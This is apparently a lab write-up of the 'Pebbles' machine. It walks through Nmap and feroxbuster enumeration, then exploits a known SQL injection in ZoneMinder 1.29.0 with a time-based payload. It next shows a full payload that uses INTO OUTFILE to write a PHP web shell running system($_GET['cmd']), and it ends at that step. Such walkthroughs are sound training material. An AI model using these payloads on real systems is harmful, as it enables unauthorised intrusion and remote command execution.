





---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Pebbles

## Enumeration

### Nmap

Start with Nmap:


```bash
sudo nmap -A -p- -o pebbles.nmap 192.168.192.52
```



```
# Nmap 7.94SVN scan initiated Tue Apr 23 13:19:08 2024 as: nmap -A -p- -o pebbles.nmap 192.168.192.52
Nmap scan report for 192.168.192.52
Host is up (0.052s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
    22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 aa:cf:5a:93:47:18:0e:7f:3d:6d:a5:af:f8:6a:a5:1e (RSA)
|   256 c7:63:6c:8a:b5:a7:6f:05:bf:d0:e3:90:b5:b8:96:58 (ECDSA)
|_  256 93:b2:6a:11:63:86:1b:5e:f5:89:58:52:89:7f:f3:42 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Pebbles
3305/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Linux 3.X|4.X (88%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
Aggressive OS guesses: Linux 3.11 - 4.1 (88%), Linux 4.4 (88%), Linux 3.16 (87%), Linux 3.2.0 (87%), Linux 3.13 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   50.92 ms 192.168.45.1
2   50.82 ms 192.168.45.254
3   51.64 ms 192.168.251.1
4   52.15 ms 192.168.192.52

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Apr 23 13:21:44 2024 -- 1 IP address (1 host up) scanned in 156.83 seconds

```


The most notable items:

* There are 3 ports hosting HTTP via Apache
  * This particular version of Apache does not appear to be vulnerable to any easy RCEs.
* FTP
* SSH: Researching the SSH header via Launchpad leads me to believe the machine is running [Xenial Xerus](https://releases.ubuntu.com/16.04/) or Ubuntu 16.04 LTS

### Manual Web Enumeration

The machine is hosting HTTP on several different ports.

#### Port 80

The port 80 page is a login portal:

<figure><figcaption><p>Login Portal</p></figcaption></figure>

#### Port 3305

This is just the default Ubuntu Apache page.

#### Port 8080

This is a [Tomcat](https://tomcat.apache.org/) configuration page. Nothing stands out as a readily exploitable vulnerability for this version.

### feroxbuster

[`feroxbuster`](https://github.com/epi052/feroxbuster) is a tool designed to perform [Forced Browsing](https://owasp.org/www-community/attacks/Forced\_browsing). It serves as an alternative to Gobuster or `dirbuster`. It enumerates very quickly.

In this instance it is used to enumerate the web server on port `80`:


```bash
feroxbuster -u http://192.168.192.52 -o pebbles.feroxbuster -t 10 -L 10 -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -k -x php,txt,js -C 404 --no-recursion
```


* `-t 10` Limit of 10 threads
* \-`L 10` Limit total number of concurrent scans
* `-k` Disables TLS certificate verification
* `-C 404` Filter out status codes (deny list)&#x20;
  * Multiple codes may be specified by reusing the flag (E.g. `-C 200 -C 401`)


```
200      GET       37l       78w     1134c http://192.168.192.52/index.php
200      GET       26l       47w      420c http://192.168.192.52/css/style.css
200      GET       74l      355w    32900c http://192.168.192.52/images/favicon.png
200      GET       37l       78w     1134c http://192.168.192.52/
301      GET        9l       28w      314c http://192.168.192.52/css => http://192.168.192.52/css/
301      GET        9l       28w      317c http://192.168.192.52/images => http://192.168.192.52/images/
301      GET        9l       28w      321c http://192.168.192.52/javascript => http://192.168.192.52/javascript/
301      GET        9l       28w      313c http://192.168.192.52/zm => http://192.168.192.52/zm/
```


### ZoneMinder

Navigating to the `/zm` directory found by feroxbuster an instance of [ZoneMinder](https://zoneminder.com/) `v1.29.0` is found:

<figure><figcaption><p>ZoneMinder in /zm</p></figcaption></figure>

ZoneMinder is an open-source tool for monitoring CCTV systems.

Some preliminary research reveals a potential SQLi vulnerability for this exact version: [EDB-ID 41239](https://www.exploit-db.com/exploits/41239). The SQLi portion of the disclosure is shown here:

<figure><figcaption><p>SQLi Payload</p></figcaption></figure>

* Method is `POST`
* Destination is `http://X.X.X.X/zm/index.php`

### Summary

* The machine is running SSH (Nmap)
* The machine is running FTP (Nmap)
* The machine is likely running Ubuntu 16.04 LTS (SSH version header)
* Machine is running Apache v2.4.18 (Nmap)
  * This version is not obviously exploitable
* Machine is running Tomcat on port 8080 (manual enumeration)
* Machine is running ZoneMinder at `/zm` on port 80

## Initial Access

The most promising vector for initial access is the ZoneMinder vulnerabilities. It pertains to this specific version.

### ZoneMinder SQLi

#### Time-Based SQLi

The payload from the screenshot above is copied below:


```
view=request&request=log&task=query&limit=100;(SELECT * FROM (SELECT(SLEEP(5)))OQkj)#&minTime=1466674406.084434
```


To leverage this, BurpSuite will be used to capture some `POST` request on `/zm/index.php`. To force a `POST` a new monitor can be created. Once captured:

<figure><figcaption><p>Unaltered POST</p></figcaption></figure>

The payload can then be substituted in and the machine is observed to hang for 5 seconds before returning a 200 response (hang not pictured):

<figure><figcaption><p>With payload and response</p></figcaption></figure>

#### Creating A Web-Shell

So the logical thing to do is to create a web shell which can then be used to get a more stable foothold.&#x20;

Recall that port 3305 was hosting the default Apache page. It stands to reason that is located at the default location `/var/www/html/`. This means a webshell could potentially be created on port 3305 if a PHP webshell can be written to port 3305. A simple PHP web-shell will be used:

```php
<?php system($_GET['cmd']);?>
```

This must then be combined with a SQL query to write it to a file. The SQL portion of the payload was originally:

```sql
(SELECT * FROM (SELECT(SLEEP(5)))OQkj)
```

This can be modified to write a file that will be accessible from the outside:


```sql
(SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/webshell.php”OQkj)
```


This will be combined into the payload from above:


```
view=request&request=log&task=query&limit=100;(SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/webshell.php”OQkj)#&minTime=1466674406.084434
```



If all has gone well commands can now be run using a `?cmd=` parameter with the `http://X.X.X.X/webshell.php?cmd=` URL.

